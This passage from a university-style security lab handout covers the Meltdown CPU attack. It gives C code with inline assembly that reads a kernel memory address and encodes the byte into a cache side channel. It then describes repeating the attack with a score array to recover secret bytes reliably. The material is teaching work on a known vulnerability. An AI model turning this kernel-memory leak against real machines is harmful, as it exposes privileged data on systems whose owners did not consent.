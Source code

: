 \begin{lstlisting}[caption=\texttt{meltdown\_asm()}, label=meltdown:list:meltdown_asm]
void meltdown_asm(unsigned long kernel_data_addr)
{
   char kernel_data = 0;
   
   // Give eax register something to do
   asm volatile(
       ".rept 400;"                  (*@\ding{192}@*)
       "add $0x141, %%eax;"
       ".endr;"                      (*@\ding{193}@*)
    
       :
       :
       : "eax"
   ); 
    
   // The following statement will cause an exception
   kernel_data = *(char*)kernel_data_addr;  
   array[kernel_data * 4096 + DELTA] += 1;              
}
\end{lstlisting}


Please call the \texttt{meltdown\_asm()} function, 
instead of the original \texttt{meltdown()} 
function. Describe your observations. Increase and decrease the number of
loops, and report your results. 




\section{Task 8: Make the Attack More Practical}

Even with the optimization in the previous task, we may still not be able 
get the secret data every time: sometimes, our attack produces the correct 
secret value, but sometimes, our attack fails to 
identify any value or identifies a wrong value. 
To improve the accuracy, we can use a statistical technique.
The idea is create a score array of size 256, one element for each possible 
secret value. We then run our attack for multiple times. Each time, if our
attack program says that \texttt{k} is the secret (this result may be
false), we add 1 to \texttt{scores[k]}.  After running the attack for many
times, we use the value \texttt{k} with 
the highest score as our final estimation of the secret.  This will produce
a much reliable estimation than the one based on a single run. The revised
code is shown in the following.




